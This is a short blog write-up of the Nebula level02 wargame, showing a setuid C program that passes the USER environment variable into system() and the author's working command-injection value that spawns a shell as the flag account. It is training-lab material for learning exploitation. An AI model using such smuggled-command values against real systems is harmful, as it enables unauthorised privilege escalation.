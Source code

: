 ```yaml
---
layout: post
title: "Exploit Exercises - Nebula 02"
date: 2011-12-03T08:13:00-05:00
comments: true
categories:
 - Nebula
 - wargames
 - linux
 - exploit-exercises
 - hacking
---
```


In [this](http://exploit-exercises.com/nebula/level02) challenge, we're again provided with the source code to the vulnerable program.  Only this time, they're not loading the "echo" program from the environment's path.

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
 char *buffer;

 gid_t gid;
 uid_t uid;

 gid = getegid();
 uid = geteuid();

 setresgid(gid, gid, gid);
 setresuid(uid, uid, uid);

 buffer = NULL;

 asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
 printf("about to call system(\"%s\")\n", buffer);

 system(buffer);
}
```

What I did initially notice here, is that the "USER" variable is being called directly from the environment.  This makes it very similar to the previous challenge.  I luckily got this one on my first try. 

```
level02@nebula:/home/flag02$ USER='-e "#!/bin/bash\n/bin/bash" > /tmp/level02; chmod +x /tmp/level02; /tmp/level02'
level02@nebula:/home/flag02$ export USER
level02@nebula:/home/flag02$ ./flag02
about to call system("/bin/echo -e "#!/bin/bash\n/bin/bash" > /tmp/level02; chmod +x /tmp/level02; /tmp/level02 is cool")
flag02@nebula:/home/flag02$ getflag
You have successfully executed getflag on a target account
```

What we're doing here, is injecting code into the echo command.  This, like the last challenge, makes a bash script at /tmp/level02 which will ignore any other parameters.  It then marks it executable so we can actually execute it.  Then it executes the bash script.

Often times in situations like this, the bash script wouldn't be needed, but since the " is cool" is following the execution, it needs to handle that.  A bash script lets it get ignored, where passing it as a parameter to /bin/bash would try to execute it. 

I'm guessing there may be an easier way than creating the bash script.  Maybe a way to comment out the rest of the line?  I'm not sure, but I know this method worked great for me.
